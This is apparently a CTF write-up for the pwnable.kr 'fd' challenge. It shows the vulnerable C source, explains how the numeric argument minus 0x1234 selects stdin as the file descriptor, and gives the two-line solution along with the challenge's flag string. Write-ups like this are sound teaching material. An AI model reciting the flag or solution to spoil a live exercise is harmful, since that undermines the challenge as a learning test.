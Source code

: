 # CTF Challenge: `fd`

## Challenge Description

```bash
fd@ubuntu:~$ ls
fd  fd.c  flag

fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]) {
    if(argc < 2){
        printf("pass argv[1] a number\n");
        return 0;
    }
    int fd = atoi(argv[1]) - 0x1234;
    int len = 0;
    len = read(fd, buf, 32);
    if(!strcmp("LETMEWIN\n", buf)){
        printf("good job :)\n");
        setregid(getegid(), getegid());
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;
}
```

## Analysis

### 1. Objective

The goal is to print the content of the `flag` file. Directly using `cat flag` from the shell is not allowed due to permission restrictions. We must find a way to trigger `system("/bin/cat flag")` through the `fd` program.

### 2. Source Code Behavior

The program expects a numeric argument `argv[1]`.

It computes:

```c
int fd = atoi(argv[1]) - 0x1234;
```

which means the given argument is subtracted by `0x1234` (4660 in decimal) to derive a file descriptor (`fd`).

Then it reads 32 bytes from that file descriptor into a buffer:

```c
len = read(fd, buf, 32);
```

If the buffer matches `"LETMEWIN\n"`, the flag is printed using:

```c
system("/bin/cat flag");
```

## Exploitation

### 1. Understanding File Descriptors

In Linux, the standard file descriptors are:

- `0`: stdin (input from keyboard)
- `1`: stdout (output to terminal)
- `2`: stderr (error output)

We want to read from `stdin`, which is file descriptor `0`. To make `fd = 0` in the code, we solve:

```
atoi(argv[1]) - 0x1234 = 0
→ argv[1] = 0x1234 = 4660
```

### 2. Exploit Steps

```bash
./fd 4660
LETMEWIN
```

After running the program, type `LETMEWIN` and press Enter.

If the input matches, the program prints:

```
good job :)
Mama! Now_I_understand_what_file_descriptors_are!
```

## Result

![result](/pwnable.kr/Toddler's%20Bottle/images/fd.png)

## Related Concepts

- File descriptors are integer handles to resources like files, sockets, and pipes in Unix-like systems.
- System calls like `read()`, `write()`, and `open()` use file descriptors for input/output operations.
- When using `fd = 0`, `read(fd, buf, 32)` reads input from the keyboard (stdin).
